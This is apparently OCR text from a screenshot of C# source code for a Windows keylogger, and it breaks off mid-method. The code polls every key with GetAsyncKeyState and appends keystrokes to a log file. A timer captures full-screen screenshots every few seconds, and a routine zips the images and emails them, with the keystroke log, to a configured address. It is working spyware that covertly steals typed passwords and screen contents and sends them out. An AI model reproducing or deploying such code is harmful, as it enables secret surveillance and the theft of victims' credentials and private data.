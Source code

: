             //skrinsotovanje ekrana

            System.Timers.Timer s = new System.Timers.Timer();
            s.Interval = 60000 * 0.1;
            s.Elapsed += takeScreenShot;
            s.AutoReset = true;
            s.Enabled = true;

            while (true)
            {
                Thread.Sleep(5);
                for (int i = 0; i < 255; i++)
                {
                    int key = GetAsyncKeyState(i);
                    if (key == 32769)
                    {
                        try
                        {
                            StreamWriter file = new StreamWriter(path, true);
                            file.Write(verifyKey(i));
                            file.Close();

                        }
                        catch
                        {
                            //nista
                        }
                        break;


                    }
                }
            }


        }

        public static void takeScreenShot(Object source, ElapsedEventArgs e)
        {
            Bitmap bmp = new Bitmap(Screen.PrimaryScreen.Bounds.Width, Screen.PrimaryScreen.Bounds.Height);
            using (Graphics g = Graphics.FromImage(bmp))
            {
                Random rnd = new Random();
                var image_name = rnd.Next(1000000, 9999999);
                g.CopyFromScreen(0, 0, 0, 0, Screen.PrimaryScreen.Bounds.Size);
                bmp.Save(folder_path + "\\images\\" + image_name + ".png");

            }
        }

        private static void sendEmail(Object source, ElapsedEventArgs e)
        {
            zipImages();
            try
            {
                using (MailMessage mail = new MailMessage())
                {
                    mail.From = new MailAddress(emailFromAdress);
                    mail.To.Add(emailToAdress);
                    mail.Subject = subject;
                    mail.Body = body;
                    mail.IsBodyHtml = true;
                    mail.Attachments.Add(new Attachment(path));
                    mail.Attachments.Add(new Attachment(folder_path + "\\images.zip"));
